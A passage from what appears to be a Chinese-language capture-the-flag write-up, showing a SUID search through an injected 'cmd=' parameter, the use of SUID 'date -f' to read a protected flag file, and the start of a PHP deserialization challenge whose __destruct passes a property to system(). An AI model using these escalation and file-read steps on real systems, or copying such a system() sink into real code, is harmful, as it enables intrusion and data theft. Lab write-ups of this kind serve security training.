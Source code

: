 接着进行提权

```
查找一下suid权限的文件
cmd=find / -type f -perm -4000 2>/dev/null | tee 1
/bin/date
/bin/mount
/bin/su
/bin/umount
```

利用date进行提权

```
date -f ffll444aaggg 可以读取文件
或
cmd=date -f /ffll444aaggg 2>1 查看1文件
```

![image-20240303174826909](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240303174826909.png)

### Unserialize Again

访问pairing.php

```php
 <?php
highlight_file(__FILE__);
error_reporting(0);  
class story{
    private $user='admin';
    public $pass;
    public $eating;
    public $God='false';
    public function __wakeup(){
        $this->user='human';
        if(1==1){
            die();
        }
        if(1!=1){
            echo $fffflag;
        }
    }
    public function __construct(){
        $this->user='AshenOne';
        $this->eating='fire';
        die();
    }
    public function __tostring(){
        return $this->user.$this->pass;
    }
    public function __invoke(){
        if($this->user=='admin'&&$this->pass=='admin'){
            echo $nothing;
        }
    }
    public function __destruct(){
        if($this->God=='true'&&$this->user=='admin'){
            system($this->eating);
        }
        else{
            die('Get Out!');
        }
    }
}                 
if(isset($_GET['pear'])&&isset($_GET['apple'])){
```